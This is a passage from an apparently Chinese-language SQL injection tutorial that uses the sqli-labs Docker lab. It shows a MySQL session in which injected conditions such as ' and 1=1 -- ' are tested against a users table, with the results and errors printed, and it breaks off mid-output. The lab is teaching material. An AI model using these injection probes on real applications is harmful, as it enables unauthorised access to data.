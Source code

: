 <pre class="lang-sql" data-nodeid="1921"><code data-language="sql"><span class="hljs-keyword">SELECT</span> * <span class="hljs-keyword">FROM</span> <span class="hljs-keyword">users</span> <span class="hljs-keyword">WHERE</span> <span class="hljs-keyword">id</span>=<span class="hljs-string">'1'</span><span class="hljs-keyword">and</span> <span class="hljs-number">1</span>=<span class="hljs-number">1</span> <span class="hljs-comment">-- ' LIMIT 0,1</span>
</code></pre>
<p data-nodeid="1922">为了方便验证 SQL 语句，推荐你直接进入 Docker 容器的 MySQL 进行测试：</p>
<pre class="lang-shell" data-nodeid="1923"><code data-language="shell"><span class="hljs-meta">$</span><span class="bash"> sudo docker ps</span>
CONTAINER ID&nbsp; &nbsp; &nbsp; &nbsp; IMAGE&nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; COMMAND&nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp;CREATED&nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp;STATUS&nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; PORTS&nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; NAMES
ea6ec615a39e&nbsp; &nbsp; &nbsp; &nbsp; acgpiano/sqli-labs&nbsp; &nbsp;"/run.sh"&nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp;29 hours ago&nbsp; &nbsp; &nbsp; &nbsp; Up 29 hours&nbsp; &nbsp; &nbsp; &nbsp; &nbsp;0.0.0.0:80-&gt;80/tcp, 3306/tcp&nbsp; &nbsp;sqli-labs
<span class="hljs-meta">$</span><span class="bash"> sudo docker <span class="hljs-built_in">exec</span> -it ea6ec615a39e /bin/bash</span>
<span class="hljs-meta">$</span><span class="bash"> root@ea6ec615a39e:/<span class="hljs-comment"># mysql -u root</span></span>
<span class="hljs-meta">mysql&gt;</span><span class="bash"> use security;</span>
<span class="hljs-meta">mysql&gt;</span><span class="bash"> SELECT * FROM users WHERE id=<span class="hljs-string">'1'</span> LIMIT 0,1;</span>
+----+----------+----------+
| id | username | password |
+----+----------+----------+
|&nbsp; 1 | Dumb&nbsp; &nbsp; &nbsp;| Dumb&nbsp; &nbsp; &nbsp;|
+----+----------+----------+
1 row in set (0.00 sec)
<span class="hljs-meta">
mysql&gt;</span><span class="bash"> SELECT * FROM users WHERE id=<span class="hljs-string">'1 and 1=1'</span> LIMIT 0,1;</span>
+----+----------+----------+
| id | username | password |
+----+----------+----------+
|&nbsp; 1 | Dumb&nbsp; &nbsp; &nbsp;| Dumb&nbsp; &nbsp; &nbsp;|
+----+----------+----------+
1 row in set, 1 warning (0.00 sec)
<span class="hljs-meta">
mysql&gt;</span><span class="bash"> SELECT * FROM users WHERE id=<span class="hljs-string">'1 and 1=2'</span> LIMIT 0,1;</span>
+----+----------+----------+
| id | username | password |
+----+----------+----------+
|&nbsp; 1 | Dumb&nbsp; &nbsp; &nbsp;| Dumb&nbsp; &nbsp; &nbsp;|
+----+----------+----------+
1 row in set, 1 warning (0.00 sec)
<span class="hljs-meta">
mysql&gt;</span><span class="bash"> SELECT * FROM users WHERE id=<span class="hljs-string">'1'</span> and 1=2<span class="hljs-string">''</span> LIMIT 0,1;</span>
ERROR 1064 (42000): You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''' LIMIT 0,1' at line 1
<span class="hljs-meta">mysql&gt;</span><span class="bash"> SELECT * FROM users WHERE id=<span class="hljs-string">'1'</span> and 1=2-- <span class="hljs-string">' LIMIT 0,1;</span></span>
Empty set (0.00 sec)
<span class="hljs-meta">
mysql&gt;</span><span class="bash"><span class="hljs-string"> SELECT * FROM users WHERE id='</span>1<span class="hljs-string">' and 1=1-- '</span> LIMIT 0,1;</span>
+----+----------+----------+
